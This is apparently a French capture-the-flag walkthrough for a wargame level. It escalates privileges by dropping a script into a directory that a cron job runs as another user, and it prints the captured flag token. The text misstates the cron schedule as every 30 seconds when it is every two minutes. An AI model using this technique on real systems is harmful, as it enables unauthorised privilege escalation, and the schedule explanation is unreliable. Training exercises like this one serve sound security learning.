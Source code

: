 Dès qu'on se connecte au level05, une notif apparait:
<pre><code>You have new mail.</code></pre>

On fait un cat du mail reçu, qui se situe dans <code>/var/mail/level05</code> :
<pre><code>> cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
</code></pre>

Il s'agit d'une tache cron dont le format est le suivant:
<pre>
*/2	*	*	*	*
minute	hour	day	month	day
</pre>
> Donc toutes les 30 secondes la tâche: <code>su -c 'sh /usr/sbin/openarenaserver"</code> va s'executer

On cat le fichier <code>/usr/sbin/openarenaserve</code> ce qui nous donne:
<pre><code>#!/bin/sh

for i in /opt/openarenaserver/* ; do // Pour chaque fichier dans le dossier
		(ulimit -t 5; bash -x "$i")	 // Avec un interval de 5 sc, executer le fichier
		rm -f "$i"					 // Supprimer le fichier
done
</code></pre>

L'idée est de creer un fichier que l'on va mettre dans le dossier <code>/opt/openarenaserver/</code> afin qu'il s'exectue des que la tâche cron s'active:
<pre><code>
echo "getflag > /tmp/token" > /tmp/getflag.sh
mv /tmp/getflag.sh /opt/openarenaserver/getflash.sh
</code></pre>
> On stocke dans <code>/tmp/token</code> le resultat car cron s'effectue en background et n'affiche pas de message


Il nous suffit de faire des ls de <code>/opt/openarenaserver/</code> et d'attendre que le ficher .sh se fasse supprimer pour savoir quand la tâche a été effectuée, ainsi il ne nous reste plus qu'a recuperer le flag:
<pre><code>> cat /tmp/token
Check flag.Here is your token : viuaaale9huek52boumoomioc
</code></pre>